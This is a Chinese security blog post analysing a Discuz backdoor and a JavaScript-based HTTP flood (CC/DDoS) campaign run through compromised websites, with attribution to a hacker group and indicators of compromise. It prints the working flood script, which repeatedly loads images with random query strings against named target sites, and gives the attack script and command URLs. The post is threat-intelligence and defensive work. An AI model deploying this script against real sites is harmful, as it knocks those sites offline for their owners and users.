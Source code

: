 > 原文链接: https://www.anquanke.com//post/id/82983 


# 从异常挖掘到CC攻击地下黑客团伙


                                阅读量   
                                **88524**
                            
                        |
                        
                                                                                    



[![](https://p3.ssl.qhimg.com/t0123d1313f5e229bdb.jpg)](https://p3.ssl.qhimg.com/t0123d1313f5e229bdb.jpg)

**异常挖掘与回溯**

        11月13日,百度云安全天网系统,通过数十TB的日志挖掘,发现了安全宝某重点客户网站上的异常行为。之后我们的分析人员跟进,发现这是一起针对安全宝某重点客户的持续攻击。最终在客户系统上放置了Web后门。

该Web后门的通信如下:



```
POST /uc_server/data/logs/20140708.php?v=1a HTTP/1.1
Host: bbs.xxxxx.com
Referer:http://bbs.xxxxx.com/uc_server/data/logs/20140708.php?v=1a
User-Agent: Sogou
Content-Length: 60
```



        从通信流量上看,并未触发任何报警。同时,客户的日志里也并未保存http response的数据。

        天网系统中的谛听模块通过对网站的访问行为进行建模,通过每个被防护的网站日志训练出这个网站特有的访问模型。包括网站参数的模型,网站访问路径的模型,网站访问session的模型。黑客这次的访问行为触发了网站访问路径模型的异常。该模型中通过每个路径访问的频度广度和路径之间的访问关系等feature,训练出针对每个网站特定的路径视图。

        我们在系统中对该客户的所有历史日志进行了回溯,发现该黑客在9月24日就已经对该客户展开了尝试性的攻击。

        通过进一步的分析,我们发现,该攻击者修改了Discuz系统的class_core.php。在该class_core.php中添加的代码如下:



[![](https://p1.ssl.qhimg.com/t01b45ad317eeb34070.jpg)](https://p1.ssl.qhimg.com/t01b45ad317eeb34070.jpg)



        从该代码中,我们可以做出以下结论:
<ol class=" list-paddingleft-2" style="list-style-type: lower-alpha"><ol class=" list-paddingleft-2" style="list-style-type: lower-roman">
<li>
这次攻击不是小范围的针对单个站点的攻击,而是攻击了多个站点
</li>
<li>
该代码中并未指定特定的CC攻击的目标,而是通过Location统一跳转到<a style="text-decoration: underline;font-family: 微软雅黑,Microsoft YaHei;font-size: 14px">http://file.lbgoo.com/file_120/37/ver.php</a>,由该url指定最终的攻击目标。
</li>
<br>

**影响确认和攻击代码**

        我们从CC的攻击代码中提取了以下特征fuwuqibeiheikeruqin,在现有的网页情报库中搜索,发现以下的链接地址:

<a style="text-decoration: underline;font-family: 微软雅黑,Microsoft YaHei;font-size: 14px">http://www.eoeandroid.com/forum.php?wangzhanbeihei&amp;fuwuqibeiheikeruqin&amp;qinggenghuanfuwuqi&amp;chongzhuangwangzhan</a>

        判断eoeandroid也被这样攻击过。

        11月20日,<a style="text-decoration: underline;font-family: 微软雅黑,Microsoft YaHei;font-size: 14px">http://file.lbgoo.com/file_120/37/ver.php</a>请求被重定向到<a style="text-decoration: underline;font-family: 微软雅黑,Microsoft YaHei;font-size: 14px">http://www.eoeandroid.com/forum.php</a>?,11月20日发现eoeandroid已经503了。该攻击手法被进一步确认

        我们又对该代码中提及到的php100.com  www.dm123.cn和12edu.com进行访问。发现如下:

        以dm123.cn为例:



[![](https://p0.ssl.qhimg.com/t01133866551fd5c215.jpg)](https://p0.ssl.qhimg.com/t01133866551fd5c215.jpg)



        显然该网站被利用来做CC攻击。

        同时我们针对以上网站挂CC攻击的js进行了分析,发现有三种。
<ol class=" list-paddingleft-2" style="list-style-type: lower-alpha">
<li>
 dm123.cn中,直接在dm123网站上挂js,脚本路径如下
</li>
<a style="text-decoration: underline;font-family: 微软雅黑,Microsoft YaHei;font-size: 14px">http://www.dm123.cn/gd.js</a>

         2. php100.com中,托管在SAE上的攻击脚本,脚本路径如下:

<a style="text-decoration: underline;font-family: 微软雅黑,Microsoft YaHei;font-size: 14px">http://jsddos.sinaapp.com/ddos.js</a>

         3. 12edu.com中,通过api接口动态获得要攻击的网站,更加难以定位:

<a style="text-decoration: underline;font-family: 微软雅黑,Microsoft YaHei;font-size: 14px">http://www.12edu.com/api.php?op=count&amp;id=34380&amp;modelid=1</a>

        以上三种方式,从扫描器检测的角度来看,复杂度逐渐增大。第一种情况下,是直接检测本域下的js。第二种则需要检测外链js,检测量大大增大了。而第三种则是在已有的js里面没有攻击代码。攻击的代码是通过api接口动态获得的。

攻击用的js代码如下:

```
function imgflyygffgdsddfgd() `{`
var TARGET = 'www.hanyouwang.com'
var URI = '/index.php?wangzhanbeihei&amp;fuwuqibeiheikeruqin&amp;qinggenghuanfuwuqi&amp;chongzhuangwangzhan&amp;'
var pic = new Image()
var rand = Math.floor(Math.random() * 1000)
pic.src = 'http://'+TARGET+URI+rand+'=val'
`}`
setInterval(imgflyygffgdsddfgd, 0.1)
function imgflyygffhghddfgd() `{`
var TARGET = 'www.weshequ.com'
var URI = '/Search/v-wangzhanbeihei&amp;fuwuqibeiheikeruqin&amp;qinggenghuanfuwuqi&amp;chongzhuangwangzhan&amp;'
var pic = new Image()
var rand = Math.floor(Math.random() * 1000)
pic.src = 'http://'+TARGET+URI+rand+'=val'
`}`
setInterval(imgflyygffhghddfgd, 0.1)
```

被攻击域名包括重要政府网站和国家级新闻媒体

<br>

**身份确认**

        通过域名的相似度,我们在现有的网页情报库中发现了如下域名:

        博客:<a style="text-decoration: underline;font-family: 微软雅黑,Microsoft YaHei;font-size: 14px">http://jsddos.blog.163.com/</a>  

        论坛:<a style="text-decoration: underline;font-family: 微软雅黑,Microsoft YaHei;font-size: 14px">http://www.jsddos.com/</a>

        在163博客上可以看到,该团队名 ddos Js团队,QQ 2

        在网页情报库中查找该QQ,可以发现<a style="text-decoration: underline;font-family: 微软雅黑,Microsoft YaHei;font-size: 14px">http://www.mspycn.com/about.html</a>

        看来除了卖ddos的服务,还在卖手机监听软件的服务

        对该域名的whois进行查询,如下:

[![](https://p4.ssl.qhimg.com/t0175f954cabd1c32e9.jpg)](https://p4.ssl.qhimg.com/t0175f954cabd1c32e9.jpg)





        从我们发现该攻击到发稿前,该黑客做了如下的事情,
<ol class=" list-paddingleft-2" style="list-style-type: lower-alpha"><ol class=" list-paddingleft-2" style="list-style-type: lower-roman">
<li>
修改了<a style="text-decoration: underline;font-family: 微软雅黑,Microsoft YaHei;font-size: 14px">http://file.lbgoo.com/file_120/37/ver.php</a>的指向
</li>
<li>
Php100.com已经不再受影响
</li>
<br>

**后续**

        我们有理由相信,这是一个在不断进化的地下黑客团体。通过更加隐蔽的手法进行CC攻击挂马。该问题的影响范围目前我们还在进一步确认。欢迎业内同仁继续跟进分析。

        如果你想查看自己的网站是否受影响,有两个步骤:

            打开网站,随机访问几个页面,查看下面是否会发起连续的对其他网站的请求<br>            查看是否会发起请求:http://file.lbgoo.com/file_120/37/ver.php

        我们从该攻击中提取了以下信息作为攻击情报或者IOC:<a style="text-decoration: underline;font-family: 微软雅黑,Microsoft YaHei;font-size: 14px">http://file.lbgoo.com/file_120/37/ver.php</a>
